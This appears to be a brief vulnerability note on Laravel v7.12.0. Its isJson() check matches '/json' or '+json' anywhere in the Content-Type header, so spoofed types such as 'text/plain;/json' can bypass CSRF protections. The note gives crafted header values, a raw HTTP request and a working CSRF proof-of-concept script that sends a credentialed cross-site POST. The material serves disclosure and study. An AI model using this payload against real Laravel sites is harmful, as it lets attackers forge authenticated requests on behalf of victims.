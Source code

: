 ### Laravel v7.12.0

**Endpoint**
```php
public function test(Request $request) {
  if($request->isJson()) {
    $data = $request->json();
```

**Source code** ([/laravel/framework/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php](https://github.com/laravel/framework/blob/ffead70b97f799c0054bd5975c85325bf857b247/src/Illuminate/Http/Concerns/InteractsWithContentTypes.php#L32-L34))
```php
public function isJson()
{
  return Str::contains($this->header('CONTENT_TYPE'), ['/json', '+json']);
```

**JSON Content-Type**
```
XXX;/json
XXX;+json
```

**HTTP Request**
```http
POST /json HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;+json
Content-Length: 13

{"test":true}
```

**CSRF PoC**
```html
<script>
	fetch('http://localhost/json',{
		method:'POST',
		headers:{'Content-Type':'text/plain;/json'},
		body:'{"test":true}',
		credentials: 'include'
	});
</script>
```